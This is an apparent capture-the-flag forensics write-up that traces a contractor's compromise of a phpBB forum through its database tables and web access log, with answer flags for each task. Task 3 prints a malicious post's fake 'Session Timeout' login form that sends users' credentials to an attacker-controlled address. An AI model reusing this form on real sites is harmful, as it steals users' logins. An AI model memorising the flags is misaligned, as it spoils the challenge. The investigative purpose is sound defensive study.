

**Challenge created by:** [blitztide](https://app.hackthebox.com/users/6893)

An initial look at the files shows a `access.log` and a PHPBB database.

## Task 1
> What was the username of the external contractor?

Opening `phpbb.sqlite3` with the DB Browser and going to the `phpbb_users` table, we can see a few users:
```
test
rsavage001
apoole
apoole1
```

Two users have emails:
```
apoole - apoole@contracter.net
apoole1 - apoole1@contracter.net
```

`apoole` has no `user_lastvisit` time, while `apoole1` does, indicating that `apoole` has never successfully logged in or visited a page.

Flag: `apoole1`

## Task 2
> What IP address did the contractor use to create their account?

Looking at the `user_ip` column in `phpbb_users` we can see `apoole1`'s IP address is `10.10.0.78`

Flag: `10.10.0.78`

## Task 3
> What is the post_id of the malicious post that the contractor made?

Going into the `phpbb_posts` table, there are three posts:
```
1 - This is an example post in your phpBB3 installation. Everything seems to be working. You may delete this post if...
2 - <t>Good Afternoon everyone!<br/><br/>I am new to the administration team here at forela, I'd like to take...
9 - <div><style>body {    z-index: 100;}.modal {    position:fixed;    top:0;    left:0;    height:100%;    width:100%;    z-ind...
```

I decide that the post to look into is post 9, the most suspicious looking one:

```js
...
            </div> <a id="start_here" class="anchor"></a>
            <div id="page-body" class="page-body" role="main">
                <div class="panel">
                    <div class="inner">
                        <div class="content">
                            <h3>Session Timeout</h3> <br /> <br />
                            <p>Your session token has timed out in order to proceed you must login again.</p>
                        </div>
                    </div>
                </div>
                <form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username"
                    target="hiddenframe">
                    <div class="panel">
                        <div class="inner">
                            <div class="content">
                                <h2 class="login-title">Login</h2>
                                <fieldset class="fields1">
                                    <dl>
                                        <dt><label for="username">Username:</label></dt>
                                        <dd><input type="text" tabindex="1" name="username" id="username" size="25"
                                                value="" class="inputbox autowidth"></dd>
                                    </dl>
                                    <dl>
                                        <dt><label for="password">Password:</label></dt>
                                        <dd><input type="password" tabindex="2" id="password" name="password" size="25"
                                                class="inputbox autowidth" autocomplete="off"></dd>
                                    </dl>
                                    <dl>
                                        <dd><label for="autologin"><input type="checkbox" name="autologin"
                                                    id="autologin" tabindex="4">Remember me</label></dd>
                                        <dd><label for="viewonline"><input type="checkbox" name="viewonline"
                                                    id="viewonline" tabindex="5">Hide my online status this
                                                session</label></dd>
                                    </dl>
                                    <dl>
                                        <dt>&nbsp;</dt>
                                        <dd> <input type="submit" name="login" tabindex="6" value="Login"
                                                class="button1" onclick="sethidden()"></dd>
                                    </dl>
                                </fieldset class="fields1">
                            </div>
                        </div>
                    </div>
                </form>
            </div>
...
```

Seems to be impersonating a login page!

Flag: `9`

## Task 4
> What is the full URI that the credential stealer sends its data to?

Reading the code in Task 3, the URL for the username:password form is: `http://10.10.0.78/update.php`

Flag: `http://10.10.0.78/update.php`

## Task 5
> When did the contractor log into the forum as the administrator? (UTC)

Reading the `phpbb_log` table, we can see from the IP `10.10.0.78` a `LOG_ADMIN_AUTH_SUCCESS` event at `1682506392`.

Using an [epoch time converter](https://www.epochconverter.com/), we get Wednesday, April 26, 2023 10:53:12 AM.

Flag: `26/04/2023 10:53:12`

## Task 6
> In the forum there are plaintext credentials for the LDAP connection, what is the password?

Inside the `phpbb_config` table is the entry: `ldap_password`, containing the password.

Flag: `Passw0rd1`

## Task 7
> What is the user agent of the Administrator user?

Going back to `phpbb_log`, we can see the admin user is authenticated by the IP `10.255.254.2` at `1682420947`. If we look for requests in the `access.log` file with that IP, we can see the user agent.

Flag: `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36`

## Task 8
> What time did the contractor add themselves to the Administrator group? (UTC)

Again inside `phpbb_log`, we can see an event `LOG_USERS_ADDED` which does the following: `a:2:{i:0;s:14:"Administrators";i:1;s:6:"apoole";}`.

This is at `1682506431`, which is our timestamp (once converted).

Flag: `26/04/2023 10:53:51`

## Task 9
> What time did the contractor download the database backup? (UTC)

Reading the `access.log` file for requests from `10.10.0.78`, at the end are these requests:
```
10.10.0.78 - - [26/Apr/2023:12:01:09 +0100] "GET /adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=acp_database&mode=backup HTTP/1.1" 200 3770 "http://10.10.0.27/adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=25" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:12:01:52 +0100] "GET /ucp.php?mode=logout&sid=eca30c1b75dc3eed1720423aa1ff9577 HTTP/1.1" 302 949 "http://10.10.0.27/adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=acp_database&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:12:01:53 +0100] "GET /index.php?sid=be3cc6e2de08bafa4044f552813e2cbe HTTP/1.1" 200 3796 "http://10.10.0.27/adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=acp_database&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

The specific request of interest is `/store/backup_...sql.gz`, which is at: 26/Apr/2023:12:01:38 +0100

The challenge asks for UTC so I subtract the +0100.

Flag: `26/04/2023 11:01:38`

## Task 10
> What was the size in bytes of the database backup as stated by access.log?

Inside the requests for the `/store/backup_...sql.gz`, we can see the following splitup for the format:

`IP - - [TIME] - REQUEST RESPONSE_CODE LENGTH REQUEST_URL USER_AGENT`

So our length is: `34707`

Flag: `34707`

## The End!

